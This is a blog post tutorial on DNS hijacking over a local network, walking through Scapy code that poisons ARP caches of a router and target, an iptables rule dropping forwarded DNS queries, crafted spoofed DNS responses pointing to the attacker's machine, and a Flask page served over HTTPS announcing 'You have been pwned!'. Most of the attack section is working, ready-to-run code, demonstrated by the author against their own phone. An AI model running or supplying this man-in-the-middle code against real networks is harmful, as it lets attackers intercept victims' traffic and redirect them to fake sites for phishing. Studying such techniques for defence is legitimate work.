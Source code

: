 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous [post][arp], we had a look at poisoning ARP caches which allowed us to intercept the target's traffic. In this post, we build on that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Before we can send spoofed responses to the target, we need the target's traffic to pass through our system. This is done by poisoning both the router's and target's ARP cache. The following code shows how this can be done.

```python
while True:
  # Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
  send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

  # Poison target's cache
  send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

  # Sleep to prevent flooding
  time.sleep(2)
```

By continously sending spoofed ARP responses, we poison the ARP caches. Now we control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send all future HTTP/HTTPS requests to our machine. 

To stop forwarding all DNS messages, we need to drop them adding a firewall rule. This is carried out
in the following manner.

```python
# Check to see if we are on linux
if (platform.system() == "Linux"):
  # Enable IP forwarding
  ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
  ipf_read = ipf.read()
  if (ipf_read != '1\n'):
    ipf.write('1\n')
  ipf.close()

  # Disable DNS Query forwarding
  firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
  Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all DNS messages from the target are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to a DOS since the target will not be able to resolve the URL to any IP address. To send a spoofed DNS answer, we can use the following code.

```python
if (pkt[IP].src == g_target_ip and
    pkt.haslayer(DNS) and
    pkt[DNS].qr == 0 and        # DNS Query
    pkt[DNS].opcode == 0 and    # DNS Standard Query
    pkt[DNS].ancount == 0       # Answer Count
    ):

  print("Sending spoofed DNS response")

  if (pkt.haslayer(IPv6)):
    ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
  else:
    ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

  # Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
  dns_resp =  ip_layer/ \
        UDP(
          dport=pkt[UDP].sport,
          sport=53
          )/ \
        DNS(
          id=pkt[DNS].id,       # Same as query
          ancount=1,            # Number of answers
          qr=1,                 # DNS Response
          ra=1,                 # Recursion available
          qd=(pkt.getlayer(DNS)).qd,  # Query Data
          an=DNSRR(
            rrname=pkt[DNSQR].qname,  # Queried host name
            rdata=g_server_ip,        # IP address of queried host name
            ttl = 10
            )
          )

  # Send the spoofed DNS response
  print(dns_resp.show())
  send(dns_resp, verbose=0)
  print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be done using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
  return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
  app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
The host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will result in the above html being returned.

# Results
I am running the dns-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are started, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `xda-developers.com` was successfully redirected to our webpage. yaaa. Note that the warning can be removed by supplying phony certificates (hard!), but that topic is for another post.

The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector
[arp]: https://fsec404.github.io/blog/arp-cache-poisoning-and-mitm/